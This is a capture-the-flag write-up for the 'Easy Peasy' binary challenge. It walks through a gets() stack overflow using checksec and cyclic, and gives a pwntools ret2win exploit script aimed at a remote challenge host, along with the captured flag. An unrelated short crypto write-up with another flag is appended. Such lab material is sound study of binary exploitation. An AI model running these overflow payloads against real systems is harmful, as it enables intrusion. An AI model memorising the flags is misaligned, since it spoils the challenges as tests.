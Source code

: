 # Easy Peasy

## Description

> A super secret piece of information has been hidden behind a program made by
> 1337 hackers.  
> Find this crucial piece of information  
>  
> Author: Anand Rajaram  
>  
> [`ezpz`](https://github.com/JOvenOven/ctf-
> writeups/blob/41d5cb83010eab06422f3673de257b646e0b3066/DeconstruCT.F/binary/easy_peasy/ezpz)

Tags: _binary_ \  
Difficulty: _easy_ \  
Points: _100_

## Solution

When executing the binary, the user is asked to insert a password

```  
$ ./ezpz  
Please enter the super secret password to display the flag:  
password1234  
Invalid password, try again  
```

If we insert a large text, it throws a `Segmentation fault`, which means it is
vulnerable to `buffer overflow` attacks.

```  
$ ./ezpz  
Please enter the super secret password to display the flag:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Segmentation fault

```

We can confirm that by opening the binary with a disassembler like `ghidra` in
which we can see three important functions; `main`, `vuln`, and `win`

```c  
undefined8 main(void)

{  
 puts("Please enter the super secret password to display the flag:");  
 fflush((FILE *)stdout);  
 vuln();  
 puts("Invalid password, try again\n");  
 return 0;  
}  
```

```c  
void vuln(void)

{  
 char local_28 [32];

 gets(local_28);  
 return;  
}  
```

```c  
void win(void)

{  
 char local_58 [72];  
 FILE *local_10;

 local_10 = fopen64("flag.txt","r");  
 if (local_10 == (FILE *)0x0) {  
   printf("%s %s","Please create \'flag.txt\' in this directory with
your","own debugging flag.\n")  
   ;  
                   /* WARNING: Subroutine does not return */  
   exit(0);  
 }  
 fgets(local_58,0x40,local_10);  
 printf(local_58);  
 return;  
}  
```

By watching this code we know that this is a classic `ret2win` challenge,
where we have to overwrite the return address with a `buffer overflow` to
execute the `win` function and get the flag.

It is also important to check the security posture of the binary by executing
the command `checksec` to see what kind of vulnerabilities we can exploit.

```shell  
$ checksec ezpz  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)  
   RWX:      Has RWX segments  
```

According to the output of `checksec`, the security of this binary appears to
be weak. While the binary likely contains a `canary`, it's worth noting that
the canary protection isn't present in the `vuln` function, which is the
specific function we intend to exploit. This indicates that the initial
conditions for the exploit are favorable.

The following steps are the recipe for solving `ret2win` challenges:

1. Determine the offset between the start of the user input and the return address in the stack.  
2. Fill the stack with random data until it reaches the return address.  
3. Overwrite the return address with a `ret` gadget. This gadget redirects the flow of execution to the address of the next function we specify after the gadget, creating a [`ROP chain`](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming). This step helps avoid potential stack alignment issues.  
4. Incorporate the address of the `win` function into the payload.

To find the offset, I usually use `cyclic`, which is available in the `pwndbg`
plug-in of the `GDB` debugger.

```  
$ gdb ezpz  
...  
pwndbg> cyclic 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa  
pwndbg> run  
```

Copy the 100-character string, then paste it when the program prompts for the
password. It should crash trying to go to the specific memory address in `ret`
(return address) `0x6161616161616166`. Use `cyclic -l <ret_addr>` again to get
the exact offset where we will start overwriting the return address.

```  
pwndbg> cyclic -l 0x6161616161616166  
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)  
Found at offset 40  
```

I will use the Python library `pwntools` to execute the following steps. Note
that the exploit is encapsulated inside the _"EXPLOIT GOES HERE"_ section. The
remaining code serves as a template, where you should only change the remote
connection parameters with the actual values of your instance.

```Python  
#!/usr/bin/python3  
from pwn import *

# Set up the target binary by specifying the ELF file  
elf = context.binary = ELF("ezpz")

# Defining the GDB script that will be used when running the  
# binary  
gs = '''  
continue  
'''

# Launch the binary with GDB, without GDB or REMOTE based on  
# the command-line arguments  
def start():  
   if args.REMOTE:  
       return remote("3.110.66.92", 31636)  
   else:  
       if args.GDB:  
           return gdb.debug(elf.path, gdbscript=gs)  
       else:  
           return process(elf.path)

io = start()

#============================================================  
#                    EXPLOIT GOES HERE  
#============================================================

# Find a ret gadget  
ret = asm('ret')  
ret = next(elf.search(ret))

# ret address is a padding to avoid stack alignment issues and  
# the main function allows the program to print the flag remotely  
payload = b"A"*40 + p64(ret) + p64(elf.sym.win) + p64(elf.sym.main)

# Send the payload  
io.sendline(payload)

#============================================================

# Interact with the process  
io.interactive()  
```

In my script I added the `main` function at the end of the payload because it
didn't work remotely without it. I am not pretty sure the reason for this
behavior, but I guess it happens because the `win` function does not return
properly, causing the process to finish before it can print the flag. When we
add the `main` function to the payload, the execution proceeds as expected,
resulting in the successful printing of the flag.

Flag `dsc{tH15_N3W_Fl4G_15_aW350M3!}`  

Original writeup (https://github.com/JOvenOven/ctf-
writeups/tree/main/DeconstruCT.F/binary/easy_peasy).## Solution  
Once the provided string is base64 decoded, the result is a string of space-
separated hex values. Decoding the hex values results in a string that looks
like the flag format, but starts with `synt{`. Applying a ROT13 decoding
results in the flag.

## Flag  
**flag{congrats_you_got_me}**

Original writeup
(https://malcrypt.gitlab.io/blog/ctfs/2021/tenable/crypto/easy_peasy/).